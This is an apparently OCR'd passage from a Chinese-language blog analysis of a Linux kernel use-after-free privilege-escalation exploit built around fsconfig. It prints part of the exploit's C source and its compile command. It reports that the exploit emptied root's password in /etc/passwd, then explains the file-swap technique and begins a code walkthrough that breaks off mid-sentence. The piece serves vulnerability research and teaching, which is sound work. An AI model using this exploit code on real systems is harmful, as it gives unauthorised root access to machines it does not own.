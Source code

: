 ```
        perror("fsconfig");
        exit(-1);
    }
    // free the uaf fd
    close(fs_fd);
}

void loop() {
    trigger();

    pthread_t p_id;
    pthread_create(&p_id, NULL, slow_write, NULL);

    pthread_t p_id_cmd;
    pthread_create(&p_id_cmd, NULL, write_cmd, NULL);
    exit(spray_files());
}

int main(void) {
    cwd = get_current_dir_name();
    syscall(__NR_mmap, 0x1ffff000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
    syscall(__NR_mmap, 0x20000000ul, 0x1000000ul, 7ul, 0x32ul, -1, 0ul);
    syscall(__NR_mmap, 0x21000000ul, 0x1000ul, 0ul, 0x32ul, -1, 0ul);
    use_temporary_dir();
    do_sandbox_namespace();
    return 0;
}
```  
  
编译命令为 gcc -g exp.c -o exp -static -lpthread  
  
这里我很简单地将 /etc/passwd 的第一项写成 root::0:0:root:/root:/bin/sh\n\n，去掉其中的 x 让它没有密码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZI9GVhDhnaGIMS9q4sRhAOKLrWW7Tu4GunpcnI8hGt1DfXlY3tJAibzlVtiauUO4FzALSYRyXoVGNBQ/640?wx_fmt=png&from=appmsg "")  
  
可以发现漏洞是存在的。  
### 原理概述  
  
通过阅读 论文原文 能大概知道 EXP 的利用思路。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZI9GVhDhnaGIMS9q4sRhAOKM6ZYVOPuibj4rjpdVrBmAlZAHsKagh2jZA8HzZRCd7Xibkkf0iaibibzVuw/640?wx_fmt=png&from=appmsg "")  
  
步骤是先打开一个具有写权限的本地文件，对其写入内容，在写文件的时候，内核会检查你的权限，随后再去写，在检查完权限，写之前可以 free 掉这个文件再立马打开特权文件（/etc/passwd），这样就可以达到绕过权限去写特权文件的操作了。  
  
配合 EXP 来看看  
### EXP分析  
  
从 main 函数开始，先调用 3 次 mmap 去分配内存，随后新建了一个 exp_dir 文件夹，并创建了 data 在该文件夹中。  
### do_sandbox_namespace  
  
setup_common 函数挂载了一个 FUSE 文件系统，但是测试下来挂载不成功也不影响 EXP 的使用，随后 mprotect 改变内存属性（这里不是很清楚为什么把栈的属性清零）。随后循环  
  